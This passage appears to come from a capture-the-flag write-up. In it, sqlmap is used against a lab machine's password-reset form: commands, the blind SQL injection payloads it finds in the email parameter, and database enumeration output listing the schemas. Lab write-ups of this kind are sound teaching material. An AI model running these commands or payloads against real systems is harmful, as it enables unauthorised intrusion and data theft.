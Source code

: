 
    oxdf@hacky$ sqlmap -r reset.request --batch
    ...[snip]...
    [14:17:36] [WARNING] POST parameter 'email' does not seem to be injectable                 
    [14:17:36] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
    [14:17:36] [WARNING] HTTP error codes detected during run:
    500 (Internal Server Error) - 40 times
    ...[snip]...



It fails. But I know this is injectable. I'll try increasing the `level`
and `risk` (and `threads` and tell it to focus on `email` to speed it
up):



    oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 739 HTTP(s) requests:
    ---
    Parameter: email (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
        Payload: _token=66wdoUK4YezV6ByHKCZcctCcm1Umtl8rKxq9WN4s&email=0xdf' AND 7794=(SELECT (CASE WHEN (7794=7794) THEN 7794 ELSE (SELECT 5566 UNION SELECT 6960) END))-- GLMi

        Type: time-based blind
        Title: MySQL > 5.0.12 AND time-based blind (heavy query)
        Payload: _token=66wdoUK4YezV6ByHKCZcctCcm1Umtl8rKxq9WN4s&email=0xdf' AND 4726=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- BxSD
    ---
    [14:30:06] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL > 5.0.12
    ...[snip]...



#### DB Enumeration

Now that `sqlmap` has identified the injection, I can use it to
enumerate the DB. I'll start by listing databases by adding `--dbs` to
the previous command:



    oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
    ...[snip]...
    available databases [3]:
    [*] information_schema
    [*] performance_schema
    [*] usage_blog
    ...[snip]...
